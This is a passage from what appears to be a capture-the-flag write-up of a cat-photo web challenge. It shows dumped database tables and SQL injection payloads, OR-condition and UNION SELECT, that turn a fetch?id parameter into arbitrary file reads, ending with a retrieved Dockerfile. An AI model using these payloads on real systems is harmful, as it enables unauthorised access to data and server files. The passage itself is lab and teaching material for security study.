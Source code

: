 ```
| 3  | Invisible        | 1      | 4a1b37876b85e982c4494e97120cef03a342b876d9f0414d26b711432bb531cf |
+----+------------------+--------+------------------------------------------------------------------+

Database: level5
Table: albums
[1 entry]
+----+---------+
| id | title   |
+----+---------+
| 1  | Kittens |
+----+---------+
```

With knowledge of the column names, I can make an SQL payload that will get the image based on the title of the file. To test I first use the payload:

```
id=0 OR title="Purrfect";  #make sure to URL encode
```

If this returns the same response as id=2, then my payload methodology is proved. After sending the request, I receive the same response as if I requested id=2.

Now to find out what "invisible" is hiding:

```
id=0 OR title="Invisible";
```

Hmm, that didn't work. It likely has to be due to the fact that whatever is meant for the "invisible" placeholder has no corresponding file location. The other images have the "file/" location whereas the "Invisible" value does not and instead gives us a hash.

#### Web application enumeration with SQLi

The fetch?id works by selecting the filename from the photos table that has a given id. This filename is then passed to the fetch function and returns the associated file or in this case cat picture.

When I enter the below for the id value, I am able to retrieve same result for id=1. This validates how the fetch function works server side:

```
0 UNION SELECT "files/adorable.jpg";
```

With the above payload, I should be able to view files located on the web app. Next steps are to enumerate the web application configurations.

I will use the above payload combined with a wordlist of common web app files to see what I can find.

Dockerfile:

```
FROM tiangolo/uwsgi-nginx-flask:python2.7

WORKDIR /app

RUN apt-get update
RUN DEBIAN_FRONTEND=noninteractive apt-get install -y mysql-client mysql-server default-libmysqlclient-dev build-essential

ADD requirements.txt /app/

RUN pip install --trusted-host pypi.python.org -r requirements.txt

ADD . /app
```
